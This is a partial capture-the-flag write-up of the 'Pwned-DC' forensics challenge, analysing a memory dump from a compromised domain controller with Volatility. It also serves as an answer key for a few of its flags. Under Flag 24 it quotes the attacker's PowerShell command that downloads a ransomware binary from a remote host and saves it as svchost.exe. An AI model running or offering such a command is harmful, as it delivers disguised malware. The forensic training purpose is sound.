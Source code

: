 <h1>Author: Panagiotis Fiskilis/Neuro</h1>

<h2>Challenge name: CyberDefenders: Pwned-DC</h2>

<h3>Description:</h3>

```
An ActiveDirectory compromise case: adversaries were able to take over corporate domain controller. Investigate the case and reveal the Who, When, What, Where, Why, and How.
```

<h3>Flags:</h3>

- Flag 1:

Q: <code>What is the OS Product name of PC01?</code>

```bash
volatility -f memory.dmp imageinfo |tee imageinfo.log
AutoVol.sh -f memory.dmp
```

- Flag 2:

Q: <code>On 21st November, there was unplanned power off for PC01 machine. How long was PC01 powered on till this shutdown?</code>

- Flag 3:

Q: <code>Who was the last logged-in user on PC01?</code>

- Flag 4:

Q: <code>What is the IP address of PC01?</code>

- Flag 5:

Q: <code>Which port was assigned to man service on PC01?</code>

- Flag 6:

Q: <code>What is the "Business.xlsx" LogFile Sequence Number?</code>

- Flag 7:

Q: <code>What is the GUID of the C drive on PC01 machine?</code>

- Flag 8:

Q: <code>What link did the user visit on 2021-11-22 at 19:45:55 UTC?</code>

- Flag 9:

Q: <code>How many bytes were received by firefox?</code>

- Flag 10:

Q: <code>What is the folder name where note.txt resides?</code>

- Flag 11:```Win2016x64_14393```

Q: <code>Which volatility 2 profile should be used to analyze the memory image?</code>

I used imageinfo from volatility2:

```bash
volatility -f memory.dmp imageinfo |tee imageinfo.log
```

Tried to analyze the sample with some generic Windows 10 profiles.

- Flag 12:```0x00000000040f7000```

Q: <code>Analyzing the memory what is the physical address of the SOFTWARE registry hive?</code>

For some automated memory enumeration I used a custom tool:

```
https://github.com/Panagiotis-INS/AutoVolatility
```

```bash
AutoVol.sh -f memory.dmp --profile=Win2016x64_14393
cat Win2016x64_14393_hivelist.log |grep "SOFTWARE"
```

![](./Images/flag12.png)

- Flag 13:

Q: <code>What is the master key of the user "0xMohammed"?</code>



- Flag 14:

Q: <code>Using the provided word list, what is the password of the user "0xMohammed"?</code>

- Flag 15:

Q: <code>What is the name of the first malware detected by Windows Defender?</code>

- Flag 16:

Q: <code>Provide the date and time when the attacker clicked send (submitted) the malicious email?</code>

- Flag 17:

Q: <code>What is the IP address and port on which the attacker received the reverse shell? IP:PORT</code>

- Flag 18:

Q: <code>Analyzing the reverse shell. What is the first argument given to InternetErrorDlg API?</code>

- Flag 19:

Q: <code>What is the MITRE ID of the technique used by the attacker to achieve persistence?</code>

- Flag 20:

Q: <code>What is the attacker's C2 domain name?</code>

- Flag 21:

Q: <code>what is the name of the tool used by the attacker to collect AD information?</code>

- Flag 22:```3140```

Q: <code>What is the PID of the malicious process?</code>

We use the malfind plugin and see that the activity of this binary is very common in malwares that want to hide themselves.

![](./Images/flag22.png)

- Flag 23:```DarkSide```

Q: <code>What is the family of ransomware?</code>

```bash
mkdir dump
volatility -f memory.dmp --profile=Win2016x64_14393 procdump -p 3140 -D dump
md5sum dump/executable.3140.exe
```

We get the following md5:

```
573feeecd2f8d980dfa7a0f4bdcc3d6c
```

Use Virus total and get the flag:

```
https://www.virustotal.com/gui/file/f8dbe9a85ea88c79c7dbf0f884a85a2726f7fba874b9bded3e10bd084800cd5d
```

- Flag 24:```Invoke-WebRequest http://192.168.112.128:8000/svchost.exe -OutFile svchost.exe```

Q: <code>What is the command invoked by the attacker to download the ransomware?</code>

A standard way to download things such as malwares from powershell we use Invoke-WebRequest

```bash
strings memory.dmp |grep -i "Invoke-WebRequest"
```

![](./Images/flag24.png)

- Flag 25:

Q: <code>Provide the number of ransomware process' privileges that are enabled by default?</code>

- Flag 26:

Q: <code>What is the pool tag of the ransomware process?</code>

- Flag 27:

Q: <code>What is the address where the ransomware stored the 567-byte key under the malicious process' memory?</code>

- Flag 28:

Q: <code>What is the 8-byte word hidden in the ransomware process's memory?</code>

- Flag 29:

Q: <code>What is the virtual address of the device where the ransomware file where opened?</code>

- Flag 30:

Q: <code>What is the physical address where the ransomware file is stored in memory?</code>

- Flag 31:

Q: <code>What is the ransomware file's internal name?</code>

- Flag 32:

Q: <code>Analyzing the ransomware file. what is the API used to get the geographical location?</code>

